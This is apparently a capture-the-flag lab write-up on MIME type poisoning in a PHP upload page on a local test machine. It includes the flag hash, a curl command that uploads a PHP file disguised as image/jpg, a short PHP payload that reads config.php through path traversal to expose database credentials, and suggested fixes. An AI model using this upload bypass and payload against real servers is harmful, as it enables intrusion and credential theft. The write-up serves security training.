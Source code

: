 # MIME Type Poisoning

## Flag

46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## Description

In the RFI episode, we noticed that the php version is at least 7.0.0.
Null byte poisoning is therefore impossible, no pwned.php%00.jpg, too bad.
But this page is vulnerable to MIME type poisoning, allowing us to inject some .php payload by forcing them to be detected as image/jpg files.

## URL

http://192.168.56.101/index.php?page=upload

## Steps To Reproduce

curl -F "Upload=Upload" -F "uploaded=@lidlpayload.php;type=image/jpg" "192.168.56.101/?page=upload#"

1 line, 1 kill.
As bittersweet as my Epinettes' LIDL olive bread memories.

## Why is it dangerous ?

If there is some gallery pages, you can execute your injected scripts by clicking them.
As long as you can execute php code remotely, nothing is impossible, "Just do it !" like someone familiar said :
```
<?php

echo highlight_file("../../../../../../../config.php");
```
Oops ! Someone seems to forgot his MySQL credentials... 

## Possible fixes

- Verify file extention (No null byte in php7, file can be corrupted or a .php renamed in .jpg, but the browser will not execute it and the issue will not be exploitable)
- Additionaly, manually parse file headers depending on their extention, some libraries make this simple, a good point is that it avoids corrupted images as well.

## Resources

- lidlpayload.php (Ressources folder)